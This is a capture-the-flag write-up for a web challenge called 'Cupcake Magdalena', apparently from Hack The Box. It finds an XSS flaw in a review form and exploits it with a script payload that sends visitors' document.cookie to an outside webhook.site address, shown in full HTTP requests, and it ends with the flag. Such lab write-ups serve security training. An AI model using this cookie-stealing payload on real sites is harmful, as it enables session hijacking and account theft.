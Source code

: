 # Web: Cupcake magdalena

The Cupcake Magdalena company has hired you to perform penetration testing on their web application. Can you review their application and find out any serious vulnerabilities?


**Target**: http://159.65.90.3:30645/

---

When we inspect the web page we see that there are 4 types of cupcakes. Each of them can be reviewed.

When we click the 2nd cupcake the folling request is sent: `GET /posts/2 HTTP/1.1`. It seems that the numeric parameter indicates the id of the cupcake.

Once we are in the cupcake page, we try to write a review. The following request is sent:

```http
POST /api/reviews/add HTTP/1.1
Host: 159.65.90.3:30645
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.90.3:30645
Referer: http://159.65.90.3:30645/posts/2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"post_id":"2","name":"a","review":"aaa"}
```
Let's try to do XSS in the form. For example, `<script>alert("hola")</script>`. We confirm that the field "review" is vulnerable. We decide to try the web hooking technique. We write a review, then we intercep the request with Burp, and in the field "review" we introduce `<script>new Image().src=\"https://webhook.site/eff815dc-37db-43cb-813e-4fa047de3dfa/?c=\"+document.cookie;</script>`. The modified request looks like:

```http
POST /api/reviews/add HTTP/1.1
Host: 159.65.90.3:30645
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.90.3:30645
Referer: http://159.65.90.3:30645/posts/2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"post_id":"2","name":"a","review":"<script>new Image().src=\"https://webhook.site/eff815dc-37db-43cb-813e-4fa047de3dfa/?c=\"+document.cookie;</script>"}
```
After sending the request, we do not see anything interesting in the response. Nevertheless, when we check the web hook page, we see that our reflected XSS has succeeded.

![[./reflected_xss.png]]

Finally, flag: HTB{r3fl3c73d_x55_4r3_d4ng3r0u5_4s_w3ll}




